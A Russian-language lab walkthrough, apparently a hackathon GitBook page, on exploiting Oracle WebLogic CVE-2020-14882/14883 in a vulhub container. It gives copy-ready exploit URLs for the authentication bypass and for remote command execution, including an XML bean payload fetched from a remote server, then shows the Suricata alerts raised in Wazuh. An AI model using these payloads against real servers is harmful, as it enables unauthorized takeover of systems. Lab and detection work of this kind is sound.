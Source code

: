# CVE-2020-14882/3

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-14882](https://nvd.nist.gov/vuln/detail/CVE-2020-14882)
* [https://www.opencve.io/cve/CVE-2020-14882](https://www.opencve.io/cve/CVE-2020-14882)
* [https://nvd.nist.gov/vuln/detail/CVE-2020-14883](https://nvd.nist.gov/vuln/detail/CVE-2020-14883)
* [https://www.opencve.io/cve/CVE-2020-14883](https://www.opencve.io/cve/CVE-2020-14883)

Oracle WebLogic Server — ведущий в отрасли сервер приложений для создания корпоративных приложений с использованием стандартов Java EE.

CVE-2020-14882 позволяет пользователям обходить аутентификацию в компоненте консоли администратора, а CVE-2020-14883 позволяет аутентифицированному пользователю выполнять любую команду в этой консоли.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/weblogic/CVE-2020-14882

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:7001 будет доступна страница входа в консоль администратора

<figure><img src="../../.gitbook/assets/cve-2020-14882(1) (1).png" alt=""><figcaption></figcaption></figure>

Для обхода аутентификации и реализации CVE-2020-14882 вставьте соответствующий URL в поисковую строку

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal
```

<figure><img src="../../.gitbook/assets/cve-2020-14882(2).png" alt=""><figcaption></figcaption></figure>

После реализации уязвимости нам не хватает привилегий для загрузки файлов

<figure><img src="../../.gitbook/assets/cve-2020-14882(3) (1).png" alt=""><figcaption></figcaption></figure>

#### Метод 1

Обойти это можно, вставив соответствующий URL в поисковую строку с полезно нагрузкой "touch /tmp/success1"

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

<figure><img src="../../.gitbook/assets/cve-2020-14882(4).png" alt=""><figcaption></figcaption></figure>

#### Метод 2

Выполнить удаленную команду можно с помощью обращения к .xml файлу, содержащему внутри себя полезную нагрузку

Для этого вставьте следующее содержимое в ваш файл и сохраните его

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Затем с помощью Python3 поднимаем http-сервер на удаленной машине с помощью команды `python3 -m http.server <port>`

Затем вставляем следующий URL в адресную строку

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://удаленный-ip:порт/rce.xml")
```

После отправки будет выполнено содержимое .xml файла, в данном случае будет создан файл /tmp/success2

<figure><img src="../../.gitbook/assets/cve-2020-14882(5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/cve-2020-14882(6).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2020-14882(7).png" alt=""><figcaption></figcaption></figure>
